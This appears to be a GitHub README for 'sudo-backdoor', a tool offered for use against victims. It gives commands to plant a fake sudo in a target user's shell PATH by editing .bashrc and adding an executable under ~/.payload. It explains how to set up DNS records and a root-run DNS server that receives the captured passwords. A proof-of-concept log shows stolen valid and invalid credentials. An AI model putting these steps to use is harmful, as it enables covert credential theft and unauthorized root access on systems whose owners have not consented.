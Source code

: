 # sudo-backdoor
Wraps around `sudo` and logs users credentials, for those annoying times when you get a shell/file write on a sudoers account without knowing their password.

# Installation
## 1. Installing the implant
Append the following line to the target user's `.bashrc` (or their appropriate shell's rc file) by running the following command:

`$ echo "export PATH=~/.payload:$PATH" >> ~/.bashrc`

Then, create `~/.payload/sudo` and paste the code found in this repository's `sudo` in there.

*Don't forget to make the bash script executable by issuing the following command:*

`$ chmod a+x ~/.payload/sudo`

Obviously you might have to adapt this installation recipe to fit the user's shell. If they are using zsh, then install to ~/.zshrc, etc.

## 2. Running the DNS Server

### 2.1 Setting up the nameserver
In your DNS settings, add a new wildcard NS (Name Server) record attached to the `de` subdomain, pointing to an A record directed at your server.

Example: 

```
| Record | Host | Value              | TTL   |
|--------+------+--------------------+-------|
| A      | ns1  | 10.0.0.2           | 1 min |
| NS     | *.de | ns1.yourdomain.com | 1 min |
```

### 2.2 Running the server
Then, on your server at 10.0.0.2, download the `dns-server.py` script and execute it as root.

Example: `# python dns-server.py`

Once it is started, when users affected by the sudo implant enter their credentials in the `sudo` prompt, you will receive their credentials in the `dns-server.py` stdout.

# Usage
Proof of concept: `testuser` is the target with password `passw0rd`.

## Targeted system
```
[testuser:~]$ echo $PATH
/home/testuser/.payload:/usr/local/sbin:/usr/local/bin:/usr/bin
[testuser:~]$ sudo id
[sudo] password for testuser:                → A wrong password is inserted here
Sorry, try again.
[sudo] password for testuser:                → The correct password is inserted here
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
[testuser:~]$ sudo id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
```

`sudo` remembers the cached credentials and does not prompt the second time around, as expected.

## DNS Server output
```
[root:~]# python dns-server.py
[06-26-17 11:06:42] Started DNS server on 0.0.0.0:53.
[06-26-17 11:11:57] #0  173.239.230.96  INVALID testuser        somewr0ng!pa55word
[06-26-17 11:08:11] #0  173.239.230.96  VALID   testuser        passw0rd
```

# Licenses
`dns-server.py` is a fork of https://github.com/pathes/fakedns by @pathes
